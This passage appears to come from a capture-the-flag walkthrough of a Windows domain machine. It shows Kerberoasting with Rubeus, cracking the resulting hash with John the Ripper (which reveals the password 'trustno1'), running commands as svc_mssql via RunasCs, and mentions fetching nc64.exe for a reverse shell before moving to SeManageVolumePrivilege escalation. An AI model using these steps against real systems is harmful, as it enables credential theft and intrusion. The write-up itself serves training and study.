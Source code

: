 This user is indeed kerberoastable. We don't have any credentials, so this needs to be done on the domain itself. We can use `Rubeus.exe` for this.

```
C:\Windows\Tasks>.\Rubeus.exe kerberoast /outfile:hashes.txt
```

Afterwards, we can transfer this back to our machine and crack it:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
trustno1         (?)     
1g 0:00:00:00 DONE (2023-07-08 15:11) 50.00g/s 51200p/s 51200c/s 51200C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The `svc_mssql` user is not part of the Remote Management Group, so we have to get a shell via `RunasCs.exe`.&#x20;

```
C:\Windows\Tasks>.\RunasCs.exe svc_mssql trustno1 whoami
.\RunasCs.exe svc_mssql trustno1 whoami
access\svc_mssql
```

Then, download another copy of `nc64.exe` and execute it to get another reverse shell:

<figure><img src="../../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

### SeManageVolumePrivilege --> WerTrigger

This user has the SeManageVolumePrivilege enabled:

```
C:\Users\svc_mssql\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State   
============================= ================================ ========
SeMachineAccountPrivilege     Add workstations to domain       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Disabled
```
